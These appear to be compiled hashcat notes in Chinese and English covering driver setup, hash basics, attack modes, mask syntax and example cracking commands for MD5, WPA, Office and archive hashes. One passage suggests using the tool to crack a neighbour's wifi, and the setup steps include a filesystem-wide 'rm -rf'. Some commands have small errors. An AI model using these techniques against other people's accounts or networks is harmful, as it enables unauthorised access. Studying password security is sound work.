4. Make sure that no Intel OpenCL SDK, AMD-APP-SDK or CUDA-SDK framework is installed – if it is installed, uninstall it!
5. For Windows only: manually delete remaining OpenCL.dll, OpenCL32.dll, OpenCL64.dll files on all folders. You should find at least 2. They usually reside in “c:\windows\syswow64” and “c:\windows\system32”. This step is very important!
6. For Linux only:

        dpkg -S libOpenCL to find all packages installed that provide a libOpenCL, then purge them
        find / -name libOpenCL\* -print0 | xargs -0 rm -rf
7. Reboot
8. For Linux only: apt-get install ocl-icd-libopencl1 opencl-headers clinfo
9. Install the driver recommended on https://hashcat.net/hashcat/. If it says *exact* it means exact.
    * install the drivers first, including drivers for CPU and GPU.
        * "Intel Driver and Support Assistant Installer" and "Driver Genius" can be used
        * make sure the drivers has been installed properly
    * then run the "opencl_runtime_16.1.2_x64_setup.exe"
    * then run the "intel_sdk_for_opencl_2017_7.0.0.2567"
    For AMD GPUs, see ROCm instructions here.
10. Reboot
11. For Linux only: rm -rf ~/.hashcat/kernels
12. Reinstall hashcat, choose:
    * Stable version: Download and extract (under Linux, make sure to use: “7z x” to extract) the newest hashcat from https://hashcat.net/
    * Beta version: https://hashcat.net/beta/
    * Development version: git clone https://github.com/hashcat/hashcat
13. For Linux only: try to run “clinfo” first in your terminal
14. Try to run hashcat --benchmark
    * add `--force` and `-D 1,2` to the command
##### the file used for intel cpu
./opencl_runtime_16.1.2_x64_setup.msi
#### for intel gpu
##### requirements
* Intel GPUs on Windows require "OpenCL Driver for Intel Iris and Intel HD Graphics"
* Intel GPUs on Linux require "OpenCL 2.0 GPU Driver Package for Linux" (2.0 or later)
##### how to install
Intel has great OpenCL support on Windows, but no support on Linux. Intel's OpenCL SDK for Linux supports only CPU.
Since hashcat is programmed on Linux (and afterwards cross-compiled for windows) there's no chance yet to getting this work.
GPUs are not magic go-fast devices. The microarchitecture and ISA have to be well-suited for the task at hand. As it stands, Intel GPUs have very minuscule raw compute power, and their ISA is not optimal for password cracking. Most modern-day CPUs with XOP or AVX2 support will be faster than an Intel GPU.
For Windows, when you install or update the graphics driver (Windows update, downloadcenter.com, etc.), the additional libraries needed to run Media SDK and OpenCL applications are included.
##### Intel's OpenCL runtime (GPU only) is currently broken
First, use this http://www.intel.com/content/www/us/en/support/detect.html to update or reinstall your intel gpu driver.
Second, add `--force` to your para.
### 基础知识
* What is a hash?
Hash is a One-way function (non-reversible) that takes an input string and outputs a string of a fixed length. There are plenty of hash functions that maybe you are probably familiar with some of the common ones are md5, various versions of SHA, NTLM, WPA, and numerous others.

* Approaches to crack a hash
    * using dictionary
        One is to enumerate candidate strings and what I mean by that is taking a list of these strings that you want convert via hashing algorithm, and then match that hash after the algorithm output with with the hash that you're trying to essentially determine the plaintext counterpart to. So, you take some strings, and you convert them through a hashing algorithm, you look at the output and you see if the hashing output matches any o the hashes that you want to decipher.
    * using rainbow
        The second options is to use pre-computation. You may heard of something called rainbow tables which is a version of that what that involves is essentially doing all the pre-computation of the hashes of the candidate strings in advance which can take up a tremendous amount of storage space but as we know storage space is relatively cheap these days and so instead of doing work as you go you have these pre-computed tables you simply take the hash that you want to determine the plain text of and it looks up in the pre-computed table to see if it exists within that particular file set or database. So you could have billions of pre-computed hashes and simply do a lookup that can just take a matter of seconds.
实际情况一般是这样的：破解者从某些渠道搞到了一大批用户名和hash后的密码，然后打算破解出原始密码，这样就能直接拿来登录网站了。
hash也叫哈希函数或散列函数，就是把你的原始密码拆散组合计算后变成一大串乱码，肉眼绝对看不出来原来是什么内容，常用的hash算法有md5、sha1、sha256等。
假如你的密码是“123456”，那么它md5的结果就是“e10adc3949ba59abbe56e057f20f883e”。
而且只要原文稍有变动，md5结果就会彻底变化。
比如“123455”的md5结果是“00c66aaf5f2c3f49946f15c1ad2ea0d3”，跟上面的没有半个字相同。
网站的数据库里不会存放你的“123456”，只会存这堆字符，就算被人把整个数据库拖走，也没法直接拿你的用户名和密码登录网站，必须要进行破解。

而且所有的hash都有个特点，就是无法反推出原文。道理很简单，比如md5的长度是固定的32位，所以它的数量是有限的，而原文要多长有多长，数量是无限的，从个位数到几十G的大文件都能hash成32位的字符串。有限个对上无限个，总会有重复，所以理论上hash无法真正破解，因为一段密文对应了无数原文。但反过来想，只要找到这无数原文中的任何一个，就等于找到原始密码了。
假设我得到了某段md5密文，经过数百上千亿次尝试后终于试出某个字串，它的md5结果也是这段密文，这种“破解”方法的学名叫碰撞（collision）。而碰撞出来的字串此时等同于原始密码。

上面说的“每秒80亿”，其实就是oclHashcat-plus用暴力破解时计算hash的最高速度，它用的是显卡GPU不是CPU，因为现在显卡的性能比CPU强多了。
看上去快得吓人，实际没那么厉害，要知道8位大小写英文加数字的密码一共有多少种？
（26+26+10）的8次方，2183401亿。每秒80亿次的话，7.5小时才能试完一个。
密码长度加一位，时间至少增长62倍。如果密码里还有各种字符，那时间就更长了。
想想55位的密码要多久才能破？还没算到百万分之一，想登录的网站都倒闭了。

不过且慢，尽管暴力破解要费很长时间，这并不代表你的账户密码从此安全了，黑客也没那么蠢，只会傻乎乎地一个个硬算密码，人家有的是方法：

* 字典：绝大部分普通用户的密码简单得令人发指，纯数字、生日、名字、单词、拼音……把这些东西排列组合在一起，做成一个密码字典，计算量比直接暴力破解少了几个数量级。某人拿到了100万个hash，假如纯暴力破解要一年，那用字典可能两小时就破解出了80万个，剩下的可以整理出来再去用别的方法破，反正手头已有的80万个账号密码想干啥干啥。
* 彩虹表：毕竟不是什么密码都能放到字典里，稍微复杂的就不行了，最终还是得靠暴力。有人想出了提升效率的方法，就是空间换时间，不用你一个个当场hash，而是提前算好，存到一张巨大的表里，破解时只查不计算，速度有了极大飞跃。使用彩虹表进行破解，普通PC也能达到每秒1000亿次以上的惊人速度。
   而且许多网站为了增加安全性，不会简单地做一次md5就保存到数据库。比如md5后再md5一次；或者在原始密码前后补上一串字符，增加密码长度后再hash，学名叫加盐（salt）；这些算法的结果都可以加入彩虹表中。网上公开了数百G的彩虹表供下载，花一星期下载它比自己花几个月算出来可合适多了。最完善的彩虹表差不多能破解出目前网上99.9%的密码。
* 高性能电脑和集群：前面说的每秒80亿次是一块顶级显卡的速度，但最新版oclHashcat-plus已经支持最多128个显卡核心。这张图是Hashcat团队的电脑，计算核心是8块HD7970显卡，总价上万美元：
    
它的速度有多快？反正我尝试用自家电脑运行oclHashcat-plus暴力破解一个8位的、字母数字符号混合的密码预计需要29天，而这台只需要不到12小时。
但它再强也只是单台电脑，顶级黑客拥有的集群计算资源包括肉鸡等等，辅以前面讲到和没讲到的各种算法，破解几千万甚至上亿的密码并不难想象。另一个问题如何分析《中国黑客传说：游走在黑暗中的精灵》文章内容的真实性？中提到顶级黑客手中有十几亿条账号密码、用云计算破解hash，虽然我不认识人家，但这些技术的可行性当然是确凿无疑的。
* 上面说的都是黑客一方拖走别人数据库后进行的破解，要知道，拖库本来就是通过漏洞和入侵才能进行的。如果服务器安全做得好，黑客很难拿到用户数据；但如果网站方自己不上心，后门漏洞一大堆，四五流的黑客都能在里面逛大街，那你的账号密码基本上就难保贞操了。
甚至有更愚蠢的事件：比如前两年CSDN论坛900多万用户数据泄露，密码居然是明文存储、连一次hash都没做——这件事实在颠覆我的世界观，要知道它可是个程序员网站——遇到这种事，只好自认倒霉，去别的网站改掉同一个密码吧。
* 对了最后再说一点，如果不是专业黑客，那oclHashcat-plus的最大作用之一可能是破解邻居的wifi密码……它绝对比某些一键式破解工具快，缺点是你得自己抓wpa握手包。
* habits of passwords
    * Many people are going to capitalize the first character
    * append numbers at the end of the string
* websites of leaked passwords
    * RockYou-32.6M plaintext
    * eHarmony-1.5M unsalted MD5
    * LinkedIn-6.5 unsalted SHA1
    * Gawker-1.3M unsalted DES
#### An Introduction to Password Hashes
Password hashes were created to solve a particularly tricky problem. If users must enter passwords to log in, you have to store those passwords on the system somehow. How do you store those passwords so that they're not plain text, yet when users enter their passwords, you can tell that they are correct? The solution is to encrypt passwords with a one-way hash. The idea behind a one-way hash is that it is relatively easy for input to get encrypted into the hash, but almost impossible to convert the hash back to the original input. If you've ever downloaded a Linux .iso and ran md5sum on it to make sure it matched the original, you were using a very popular one-way hashing algorithm, MD5. Other popular one-way hashes include the SHA family (SHA1, SHA256 and SHA512), and phpass is the modern default for PHP-based sites like WordPress.
When you log in to a Linux system, the password you enter gets converted into a hash with the same algorithm originally used when you first set your password. The system compares this new hash with the hash it has stored on the system, and if they match, it assumes you entered the correct password and you are logged in. So for instance, on a modern PHP site, if your password was 123456, it might get stored as $P$BPlIiO5xdHmThnjjSyJ1jBICfPkpay1.
#### How Password Cracking Works
On a very basic level, password cracking works much like a regular login. You take a password guess, run it through a hashing algorithm and compare it to the existing hash. If it matches, you cracked the password. The main difference between cracking and a regular login is that you are doing hundreds of thousands if not millions of these comparisons a second.
##### `/etc/passwd` and `/etc/shadow`
The most important thing you need before you crack a password is the password hash. Because we are talking about perfectly legitimate uses of password cracking, this is simple. After all, you should have root access on your own systems or databases, and it should be easy to retrieve the password hashes. In the case of Linux logins, these password hashes used to be stored in /etc/passwd. That seems like a logical place to store passwords on a Linux system. The problem is, that file also stored the user names and user IDs in use on the system, and because of that, the file needs to be world-readable. Back when passwords were stored in that file, any local user could pull the full list of password hashes and start cracking. These days, Linux stores the password hashes in /etc/shadow, where they are readable only by root. In the case of Web site passwords, the hashes usually are stored either somewhere on the filesystem itself or often in a special user table in a database.
The second important thing you need is to know what hashing algorithm was used for those hashes. Without that, you won't know what type of hashing algorithm to use for your attack. In the case of login hashes, the hash type is stored in the password hash itself. If you look at a password hash in /etc/shadow, you'll notice a log of strange characters along with a few $ thrown in. These $ characters delimit different sections of the hash as follows:
`$id $salt $encrypted`
The id section tells you what hash is being used:
* 1 = MD5
* 5 = SHA-256
* 6 = SHA-512
These days, you are most likely to run into SHA-256 and SHA-512 passwords. Because the hashing algorithm and the salt are stored along with the password itself, Linux password hashes are pretty portable. If you have one hash, you can copy it to another system and use the same password to log in.
#### Why Use a GPU?
The simple reason to use a GPU instead of a CPU for password cracking is that it's much faster. It turns out that cracking passwords is a lot like mining Bitcoins, so the same reasons GPUs are faster for Bitcoin mining apply to password cracking. The short answer is that there are many more specialized chips on a GPU that perform 32-bit operations really quickly. Although a CPU can perform a lot of general-purpose calculations, the chips on a GPU can perform specific types of operations much faster, and in a much more parallel way. If you want more specifics, this site explains in more detail from the perspective of Bitcoin mining: https://en.bitcoin.it/wiki/Why_a_GPU_mines_faster_than_a_CPU.
#### The Hardware
The most important piece of hardware you need to crack passwords is a fast GPU. Because cracking passwords is like mining Bitcoins, you can get a good idea of how your GPU would perform by how well it would mine Bitcoins.
This site provides a good list of available video cards and describes their performance: https://en.bitcoin.it/wiki/Mining_hardware_comparison. When you look at that site, what you'll notice is that AMD GPUs tend to be much faster than NVIDIA GPUs, even though for gaming often the reverse is true. The reason for this is explained in detail in the explanation of why a GPU mines faster than a CPU, but in short, AMD GPUs tackle the problem of graphics rending with a lot of small, simple chips that perform 32-bit operations quickly. NVIDIA GPUs have fewer, but more sophisticated chips that are closer to a CPU in complexity. For the purposes of Bitcoin mining or password cracking, which can be highly parallel, those larger number of simple chips work the fastest. Also note that cracking software can take advantage of multiple GPUs, so if you can afford it, and your motherboard can support it, you may find you'll get the same performance out of two cheaper GPUs than a single expensive one.
In my case, I didn't have a desktop PC lying around I could use for this, so I built a special desktop just for password cracking. In case you want to follow in my footsteps, here is my exact hardware along with prices:

* GPU: SAPPHIRE FleX 100312FLEX Radeon HD 6950 2GB: $280
* Power supply: RAIDMAX HYBRID 2 RX-730SS 730W: $60
* Motherboard: ASUS M4A88T-V: $95
* CPU: AMD Phenom II X6 1090T Black Edition Thuban 3.2GHz: $170
* RAM: Corsair CMX4GX3M2B2000C9 4Gb 240-pin DDR3: $55
* Storage: Seagate ST95005620AS 500GB 7200 RPM Hybrid Drive: $100
* Case: already owned
* Total: $760, $930 with monitor, $340 just GPU + PS
If you already have a desktop that supports a modern video card, you may need to purchase only the GPU and power supply. Keep in mind that modern high-performance video cards require a lot of power, so you'll want at least a 700W power supply in your case, and more than that if you intend to chain two video cards together. I found that the AMD 6950 had good performance for my budget, plus this particular model can theoretically be turned into a 6970 with a firmware update. If you have a larger budget though, you may want to buy two or more 6950s and chain them together.
So there you have it. You now have a month to get your hardware together, and next, I'll discuss the software side of password cracking, explain dictionary, brute-force and mask attacks, and give specific examples with my password-cracking system.
### requirements
* AMD GPUs on Linux require "RadeonOpenCompute (ROCm)" Software Platform (1.6.180 or later)
* AMD GPUs on Windows require "AMD Radeon Software Crimson Edition" (15.12 or later)
* Intel CPUs require "OpenCL Runtime for Intel Core and Intel Xeon Processors" (16.1.1 or later)
* Intel GPUs on Linux require "OpenCL 2.0 GPU Driver Package for Linux" (2.0 or later)
* Intel GPUs on Windows require "OpenCL Driver for Intel Iris and Intel HD Graphics"
* NVIDIA GPUs require "NVIDIA Driver" (367.x or later)
### Install
* install on ubuntu

        git clone https://github.com/hashcat/hashcat.git
        cd hashcat
        git submodule update --init --recursive
        sudo make
        sudo make install
* install on windows
Hashcat的强大破解能力依赖于显卡的GPU浮点运算，建议直接在物理机上安装Kali和显卡驱动。Kali安装显卡驱动，参考Kali官方教程，双显卡安装显卡驱动遇到黑屏参考这篇文章解决。VMware虚拟机中hashcat也可以使用CPU运行，只是破解速度远远低于GPU破解。也可以在主机windows上使用hashcat
  * 首先要安装最新的显卡驱动
  * 然后下载hashcat的binary
  * 然后cmd，管理员运行，拖拽hashcat的64位exe运行
  * 其他文件也可以拖拽，如字典文件，破解结果等。
### 先介绍几个相对比较好用的在线hash破解站
* cmd5.com
* www.objectif-securite.ch
* 淘宝
* `findmyhash md5 -h ff9830c42660c1dd1942844f8069b74a`
### 使用hashcat前的一点点准备工作
务必保证已经事先装好对应的显卡驱动看官网这情况,最新版的hashcat除了增加了一些新的散列类型之外,貌似也已经不再区分AMD和英伟达显卡了,如果你用的是旧版本的hashcat,请根据自己实际的显卡类型来选择对应版本的hashcat,之后再到其官方站点把hashcat down下来,注意,直接解压即可运行,无需再额外装任何东西,用什么系统就运行对应系统的可执行程序即可实际破解中,更推荐用linux,可能就是装驱动稍微有点儿麻烦,不过还好啦,如果实在搞不定,在win下跑也是一样的,本来想用显卡给大家演示的,没办法,家里的电脑,集成显卡没钱,无奈,大家谅解哈,所以,下面就直接全部用kali自带的hashcat来演示了,不同类型的hashcat,单就用法来讲,其实也没啥太大区别,实际使用中建议还是自己买块好点儿的显卡跑,如果真有条件很显然,本人是个穷逼GPU矩阵也是可以考虑的.
`https://hashcat.net/files/hashcat-3.6.0.7z`
### 关于hashcat的一些常用选项
如果在kali中提示要升级到新版本[kali2.x可能会出现这样的情况],请把系统时间修改到2010年之前即可,这里就只说几个最常用的选项,关于其它的各种小选项,因为自己实际中用的比较少,如果大家万一用到,扫一眼帮助即可,篇幅原因这里就只捡最核心的说了
* `-a`: for the type of attack,指定要使用的破解模式
* `-m`: for the type of hash,指定要破解的hash类型所对应的id[下面有一份完整的hash id对照表],几乎现在市面上常用的一些散列类型它都支持,而且每个版本更新都会增加一些新的算法
* `-o`: 指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
* `--force`: 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
* `--show`: 显示已经破解的hash及该hash所对应的明文
* `--increment`: 启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程,其实,并不建议这么用,因为破解时间可能会比较长
* `--increment-min`: 密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
* `--increment-max`: 密码最大长度,同上
* `--outfile-format`: 指定破解结果的输出格式id,一般自己常用`3`
* `--username`: 忽略hash文件中的指定的用户名,在破解win和linux系统用户密码hash可能会用到
* `--remove`: 删除已被破解成功的hash
* `-r`: 使用自定义破解规则,这个后期抽空再说吧,比较的复杂,不是一两句话能说完的
### 不同破解模式下的具体工作细节
* `0`: Straight.最简单的纯粹基于字典的爆破模式,后面可以连续跟上多个字典文件,破解的成功与否最终还是取决于字典质量,在几乎同等的破解时间里,是我我肯定不会先选它的,简单跑一些弱口令什么的,还是可以的,话说回来,如果只是跑些弱口令,大可不用hashcat,未免有些大材小用了,不是吗
* `1`: Combination. 一种相对智能高效的爆破模式,它的意思是这样的,如果你事先已经明确知道密码中可能包含哪些字符串,你可以把那些字符串事先写到文件中,每行对应一个字符串,然后hashcat会自动根据你所提供的这些字符串,尝试所有可能的组合进行猜解
* `3`: Brute-force. 基于纯掩码的爆破方式,如果你有需求要大批量爆破hash,可能会用到,后面我们会用绝大部分的篇幅来说它,这里需要稍微注意下,你给定的掩码是多少位它就只破解多少位,比如,你给的是7位的掩码,它就只跑7位这么长,它可能并不是你想象的那样,是从1位一直跑到第7位这样自动轮询,如果你想让它自动变长跑,启用increment模式指定密码的最小和最大长度即可,之前理解的有点儿错,也是看官方的wiki才知道的,汗…
* `6`: Hybrid Wordlist + Mask. 基于字典和掩码配合的爆破模式,它的破解过程其实也比较简单,就是每次从前面的字典中取出一个字符串然后和后面掩码的所有组合进行拼接,直到撞到对应的明文
* `7`: Hybrid Mask + Wordlist.  基于掩码和字典配合的爆破模式,跟6的过程正好相反,只不过这次它是从前面进行拼接
### 不同的掩码所表示的具体字符及掩码字符集规则使用样例:
掩码是个非常灵活的东西,你可以把它放到任何你想放的位置上,甚至,你愿意的话,也可以把自己想跑的一些掩码规则都事先放到一个文件中,然后以.hcmask命名,加载就可以让hashcat自动跑了,这样用起来比较方便,省的后期经常需要人为干预,后续会为大家简单演示下
* `l`: abcdefghijklmnopqrstuvwxyz 纯小写字母
* `u`: ABCDEFGHIJKLMNOPQRSTUVWXYZ 纯大写字母
* `d`: 0123456789					纯数字
* `h`: 0123456789abcdef				常见小写子目录和数字
* `H`: 0123456789ABCDEF				常见大写字母和数字
* `s`:  !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~		特殊字符
* `a`: ?l?u?d?s					以上所有字符
* `b`: 0x00 - 0xff					可能是用来匹配像空格这种密码的
#### An example of `.hcmask`
`cat test.hcmask`

        ?u?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
        ?u?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l?l1106?d?d?d?d?s?s
run `hashcat -a 3 -m 11300 dash.hash test.hcmask -o cracked.txt --session test1`
### Examples
* `?l?l?l?l?l?l?d?d?d?d`: 表示6位小写子目录4位数字组成的密码,注意这里的位置全部都是一一对应的
* `de?l?d?s56pos`: 表示由de加一位小写字母加一位数字加一位特殊字符后面跟上56pos组成的密码
#### 自定义字符集规则
* `-1 ?l?s ?1?1?1?1?1`: 表示五位由特殊字符和小写字母组成的密码
* `-1 ?d?l -2 ?d?l?u -3 ?l?u ?1?2?3`: 表示密码的第一位可能是小写字母或者数字,第二位可能是大小写字母或者数字,第三位可能是大或小写字母
#### Using custom-charset within hcmask file
`charset1,charset2,chatset3,chatset4,mask`
`?u,?u?l,?l?d,?1?2?2?2?2?3`
Example:
        
        ?d?l,test?1?1?1
        abcdef,0123,ABC,789,?3?3?3?3?1?1?1?1?2?2?4?4?4?4
        company?d?d?d?d?d
        ?l?l?l?l?d?d?d?d?d?d
        ?u?l,?s?d,?1?a?a?a?a?2
### 不同破解模式下的具体应用场景,用的时候需要稍微注意下语句格式(暂以破解最普通的md5 hash为例)
#### 基于纯字典的爆破模式 Straight:
`hashcat --force -a 0 -m 0 hash.txt /home/weak_wordlist/pass/weakpass.txt -o res.txt`
`cat res.txt`

for multiple dictionaries in one folder:
`hashcat -a 0 -m 2500 cap.hccapx path/to/dictionaries/folder`
#### 稍微智能一些的字典爆破模式,需要事先把密码中有可能包含到的单词都放到字典中 Combination
比如,我有两个这样的字典,字典包含如下的字符串,而我的实际密码是adminpass [ 字典文件可同时有很多个,不过那也意味你的组合也会特别多,速度就会慢 ],实际破解就可以像下面就这样写
`cat dic1.txt dic2.txt`

`hashcat --force -a 1 -m 0 hash.txt dic1.txt dic2.txt`

##### Combinator Attack
##### Description
Each word of the second dictionary is appended to each word in the first dictionary.
##### Input and Output

        G:\hashcat-4.2.0>cat dic1
        admin
        root
        user
        master
        
        G:\hashcat-4.2.0>cat dic2
        pass
        toor
        
        G:\hashcat-4.2.0>hashcat64.exe -D 2 -a 1 dic1 dic2 --stdout
        adminpass
        admintoor
        rootpass
        roottoor
        userpass
        usertoor
        masterpass
        mastertoor
        
        G:\hashcat-4.2.0>hashcat64.exe -D 2 -a 1 dic2 dic1 --stdout
        passadmin
        passroot
        passuser
        passmaster
        tooradmin
        toorroot
        tooruser
        toormaster
        
        G:\hashcat-4.2.0>hashcat64.exe -D 2 -a 1 dic1 --stdout
        Usage: hashcat64.exe [options]... hash|hashfile|hccapxfile [dictionary|mask|directory]...
        
        Try --help for more help.
##### Combinator Attack
Using the Combinator Attack within hashcat (not standalone version of Combinator Attack).
The command for the Combinator Attack in hashcat is `-a 1`
You need to specify **exactly** 2 dictionaries in your command line: e.g.
`./hashcat64.bin -m 0 -a 1 hash.txt dic1.txt dic2.txt`
If you wish to add rules to either the left or right dictionary or both at once then you can use the `-j` or `-k` commands.
`-j`, `--rule-left=RULE`        Single rule applied to each word on the left dictionary
`-k`, `--rule-right=RULE`       Single rule applied to each word on the right dictionary
Example.
Dictionary 1

        yellow
        green
        black
        blue

Dictionary 2

        car
        bike
Commands

        -j '$-'
        -k '$!'
Note: the quotes are only there to escape the `$` character which would otherwise allow `$-` to be interpreted as a variable. The rules that are used here are still just `$-` and `$!`. Escaping might not work exactly the same way on each operating system and with each shell interpreter (if you are unsure about what needs to be escaped and how it should be escape, please consider looking up your OS and/or shell interpreter manual).
The output would be

        yellow-car!
        green-car!
        black-car!
        blue-car!
        yellow-bike!
        green-bike!
        black-bike!
        blue-bike!

#### 基于纯掩码的爆破模式,其实就是尝试逐个位破解,一般人的密码设置习惯大都是基于大小写字母数字这种形式的,如果hash实在比较多,可以尝试从指定的位数开始一位位的将大小写特殊字符轮询这跑,可以节省一些时间 [Brute-force]
* 破解九位纯小写字母组成的密码hash,可以看到在我双CPU双核的虚拟机中破解这种只是两三分钟的事情
`hashcat --force -a 3 -m 0 hash.txt ?l?l?l?l?l?l?l?l?l`


* 前三位小写字母,后四位数字
`hashcat --force -a 3 -m 0 hash.txt ?l?l?l?d?d?d?d`

* 10位纯数字,其实大家都很清楚,底层对数字的处理速度是最快的
    `hashcat --force -a 3 -m 0 hash.txt ?d?d?d?d?d?d?d?d?d?d`
    

* 7位小写字母加数字的随机组合
    `hashcat --force -a 3 -m 0 hash.txt -1 ?l?d ?1?1?1?1?1?1?1`
    

#### 除了上面这种常规的掩码写法,你也可以这样,比如,你明确的知道密码的某一位或者几位上可能是什么字符,你也可以这样写掩码,假设密码明文为loveshare,你实际破解的掩码就可以这样写,它只会去破解有掩码的位,速度自然就非常快了
`hashcat --force -a 3 -m 0 hash.txt ?l?lve?l?la?l?l`

#### 基于字典和掩码配合的爆破模式,把可能存在的字符串事先写到字典中,然后hashcat在破解的时候会把后面所有的掩码组合跟前面的字典每行中的字符串进行拼接,直到猜解出明文,下面也是一样,只不过下面是把掩码放在了前面字典放在了后面`Hybrid Wordlist + Mask`,其实,它想表达的意思非常简单,如
dic1.txt 中的内容是这样的
admin
root
...
实际的明文密码是这样的
`adminpass123`
那你实际破解的掩码,就可以这样写
`hashcat --force -m 0 hash.txt -a 6 dic1.txt -1 ?l ?l?1?1?1?d?d?d`

其实,它实际的拼接过程就相当于下面这样,直到最后就会撞到adminpass123
`admin?1?1?1?1?d?d?d`
`pass?1?1?1?1?d?d?d`

`cudaHashcat64.exe --status -m 0 -a 6 -o cracked.txt hash.txt wordlist.lst masks\rockyou-7-2592000.hcmask`
#### 下面是多字典实例
`hashcat --force -m 0 hash.txt -a 6 dic1.txt dic2.txt -1 ?l ?l?1?1?1?d?d?d`

(multiple dictionaries, not combined dictionaries)
#### 基于掩码和字典配合的爆破模式 [Hybrid Mask + Wordlist]:
`hashcat --force -m 0 hash.txt -1 ?l?d ?1?1?1?1 -a 7 dic1.txt dic2.txt`

上面是分别对dic1.txt 和 dic2.txt分别加掩码，如果想用两个字典的组合加掩码，应该用下面的格式：
`J:\hashcat-5.0.0>\hashcat-utils-1.9\bin\combinator.exe dic1 dic2 > dic1dic2 | hashcat64.exe --force -D 2 -a 7 ?d dic1dic2 --stdout`
这样可以避免上传两个字典的组合文件，当然如果组合文件不大的话也可以组合好后生成字典文件然后上传。
#### 基于increment的自动变长模式,下面的意思就表示自动破解4到8位由小写子目录和数字组成的密码hash:
`hashcat --force -a 3 -m 0 hash.txt --increment --increment-min=4 increment-max=8 -1 ?l?d`

#### Using rules
Hashcat has a built-in function for writing custom scripts for modifying each line in a wordlist automatically. For example, say you have a wordlist with only the word "password" in it. Running a rule against this file might make hashcat first try "password", then try "password1", then try "password123", etc. The variations are dependent on the rules written in the rules file.
Luckily, you don't have to be a master at writing rules files in order to utilize them. Like wordlist, Kali comes with a bunch of rules that are built in. The most famous one of these has 64 different modifier variations built in and is called _base46.rule_. The Windows syntax for this rule is as follows:
`hashcat64 -m2500 -r rules\base64.rule -o cracked capturefile-01.hccapx rockyou.txt`
Again, mind the syntax. This assumes that the base64.rule file is in a subdirectory called *rules*, and the *capturefile-01.hccapx* and *rockyou.txt* file are jin the working directory. Relative and absolute paths can be used in either Linux or Windows for any of these parameters. Also keep in mind that if you are applying 64 variations to each password in the list, that running this command with the rule applied that applies base64.rule is going to take 64 times longer than just running the wordlist alone.
#### 破解 wpa/wpa2 握手包中的无线密码hash [可能需要你自己先把握手包用wpaclean整理一下,再用aircrack输出成hashcat认识的散列格式,非常实用,具体内容请查看无线破解相关文章]:
`hashcat -a 3 -m 2500 wpahash.hccap ?l?l?l?l?l?l?l?l`
#### 破解Adobe PDF 11文件密码hash,后面针对这种包公套件的加密破解,都需要自己先把hash提取出来,在john基本都有对应的hash提取脚本,可直接用,后续我们再说,下面几种类型的破解有几个还有一些问题,不过,我们后面用john来搞就好了
`hashcat --force -m 10700 hash.txt -a 3 ?d?d?d?d?d?d`
#### 破解 Office 2013 文件密码hash:
`hashcat --force -m 9600 hash.txt -a 3 ?d?d?d?d?d?d`
#### 破解 RAR5压缩文件密码hash:
`hashcat --force -m 13000 hash.txt -a 3 ?d?d?d?d?d?d`
#### 破解 7-Zip压缩文件密码hash:
`hashcat --force -m 11600 hash.txt -a 3 ?d?d?d?d?d?d`
#### 破解 WinZip压缩文件密码hash:
`hashcat --force -m 13600 hash.txt -a 3 ?d?d?d?d?d?d`
### Rule-based Attack
Note: You cannot do `-a 1` with `-r` in combination. What I meant is more like this:`$ ./combinator.bin words.dict words.dict | ./hashcat -m -a 0 -r rules.rule`
#### rule attacking on words which length is less than 8
 I'm trying the WPA/WPA2 cracking, but unfortunately all the words that are less than 8 characters are getting rejected, since the minimum length of WPA passwords are 8 characters.
 The problem is that I'm trying with a rule based attack which adds characters to the original word, so the end result is 8 characteres long, but hashcat only checkes the original word.
